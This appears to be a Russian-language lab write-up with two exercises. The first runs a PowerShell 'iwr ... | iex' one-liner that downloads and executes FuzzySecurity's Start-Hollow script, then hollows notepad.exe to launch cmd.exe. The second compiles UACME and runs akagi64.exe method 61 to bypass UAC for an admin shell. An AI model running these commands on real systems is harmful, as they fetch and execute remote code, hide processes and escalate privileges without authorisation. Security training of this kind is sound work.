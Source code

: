 
Задача 1:  
1. Требуется запустить PS с правами админа  
2. Устанавливаем Start-Hollow

(iwr –uri [https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Start-Hollow.ps1](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Start-Hollow.ps1) -UseBasicParsing).Content | iex

3. Запускаем Start-Hollow. В поле Sponsor пишем файл с помощью которого запустим другое файл (например: notepad.exe), в поле Hollow пишем имя приложение которое нам нужно запустить (например: cmd.exe)

4. Получаем cmd запущенный в блокноте

![](file:///C:/Users/D395~1/AppData/Local/Temp/msohtmlclip1/01/clip_image002.png)

Задача 2:

1.      Устанавливаем на основную машину архив [https://github.com/hfiref0x/UACME](https://github.com/hfiref0x/UACME)

2.      Запускаем С:\UACME-3.6.6\UACME-3.6.6\Source\uacme.sln в Visual Code

3.      Устанавливаем параметры Release x64 и запускаем компиляцию

4.      Затем компилируется файл akagi64.exe, который требуется переместить на windows машину

5.      После запускаем через консоль akagi64.exe 61(ключ для akagi. Производит манипуляции с разделами \system32\slui.exe и  \system32\changepk.exe) и получаем консоль админа (подробнее с ключами для запуска можно ознакомиться на гитхабе). POC для ознакомления с работой данного ключа [slui.exe (ChangePK) Privilege escalation POC](https://gist.github.com/r00t-3xp10it/0c92cd554d3156fd74f6c25660ccc466)
![](file:///C:/Users/D395~1/AppData/Local/Temp/msohtmlclip1/01/clip_image003.png)
 